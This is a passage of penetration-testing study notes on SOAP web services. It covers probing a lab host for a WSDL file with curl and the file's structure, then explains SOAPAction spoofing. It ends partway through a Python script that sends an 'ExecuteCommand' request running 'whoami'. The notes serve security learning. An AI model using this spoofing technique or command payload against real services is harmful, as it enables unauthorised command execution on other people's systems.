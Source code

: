     # this shows wsdl is valid parameter

    curl http://10.10.150.160:3002/wsdl?wsdl
    ```
  
  * WSDL files can be found in other forms like ```/example.wsdl```, ```?wsdl```, ```/example.disco```, ```?disco```, etc.

  * WSDL file layout has the following elements (with respect to version 1.0):

    * Definition - root element; in this, web service name, namespaces and service elements are defined
    * Data types - data types used in exchanged messages
    * Messages - defines input/output operations supported by web service
    * Operation - defines available SOAP actions alongside encoding of each message
    * Port type - defines web service, available operations & exchanged messages
    * Binding - binds operation to a port type
    * Service - client makes call to web service through service name mentioned in this tag

## Web Service Attacks

* SOAPAction Spoofing:

  * If a web service considers only SOAPAction attribute (additional HTTP header containing operation name) to determine the operation, it can be vulnerable to SOAPAction spoofing

  * For example, from the WSDL file of the given SOAP web service, we have a SOAPAction operation called 'ExecuteCommand':

    ```xml
    <wsdl:operation name="ExecuteCommand">
    <soap:operation soapAction="ExecuteCommand" style="document"/>
    ```
  
  * Parameters for this operation:

    ```xml
    <s:element name="ExecuteCommandRequest">
    <s:complexType>
    <s:sequence>
    <s:element minOccurs="1" maxOccurs="1" name="cmd" type="s:string"/>
    </s:sequence>
    </s:complexType>
    </s:element>
    ```
  
  * As we have a 'cmd' parameter, we can create a script 'client.py' to issue requests and try to force SOAP service execute a command:

    ```py
    import requests

    payload = '<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><ExecuteCommandRequest xmlns="http://tempuri.org/"><cmd>whoami</cmd></ExecuteCommandRequest></soap:Body></soap:Envelope>'
